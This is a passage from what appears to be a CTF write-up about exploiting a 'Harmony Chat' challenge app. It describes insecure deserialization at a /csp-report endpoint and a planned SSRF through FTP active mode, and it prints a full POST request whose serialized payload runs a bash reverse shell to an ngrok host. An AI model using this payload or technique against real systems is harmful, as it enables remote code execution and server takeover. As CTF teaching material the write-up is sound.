 In the ``csp`` module, the application does some basic LAN checking when the HTTP server recieves a POST request to the ``REPORT_URL`` endpoint (``/csp-report``). 

We can host the application locally. In our local instance, we can go ahead and play with the application ourselves and see what we get. Robert Xiao, team mentor, helped in realizing that RCE was achievable through ``/csp-report``. With the application running locally on the right, we see that we can leverage the app's use of ``javascript-serializer`` to deserialize dangerous payloads. For example, ``console.log(11111)``:

{{< image src="/images/harmonyconsolelog.png" alt="research" position="center" style="border-radius: 8px;" >}}

So, we can execute code through a POST request to ``/csp-report``! Obviously, we can achieve a simple ``console.log()`` but this can be extended further into opening a reverse-shell. Anything is possible :)

So, to recap, we have the capability to communicate to the basic HTTP server and an FTP server, alongside an RCE vulnerability if we make a malformed POST request to ``/csp-report``. Of course, the RCE is easy to achieve when hosting the application locally, since we don't need to worry about failing the ``isLocal`` check. To replicate RCE on the actual application itself, we need to somehow trick a forward-facing server on there to make that POST request for us. AKA, we need to do some SSRF. Now, like mentioned before, we can communicate to 2 servers in the application: the HTTP one, and the FTP one. Let's explore FTP's capabilities further.

[I've actually seen this attack before](/posts/2020/04/plaidctf-2020-contrived-web-problem) - tricking an FTP server to send a rogue request to another server is quite easy to do if said FTP server supports active mode. To quickly summarize, FTP on active mode is essentially the client/user stipulating to the server where to establish its data connection to. By convention, you would typically tell it to connect to some port on your machine so you can transfer files between you and the server - but realistically, you can tell the server to establish a connection to wherever you want (so long as "wherever you want" has the stipulated port open). 

So the golden question - can we use FTP on active mode and make their server establish a data connection to their HTTP server, allowing us to use FTP to send them the POST request?
(...I mean, yes, that's why we're here right? :P)

So Harmony Chat's FTP server serves one (intended) purpose: to store then deliver a file showcasing the chat logs of a specific channel. Unfortunately, the FTP server doesn't have write access to these files it stores, so it's not like we can create some dummy file then edit it later. We will have to somehow craft a valid POST request in the chat log of a channel. 

How do we get this...

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

On here? 
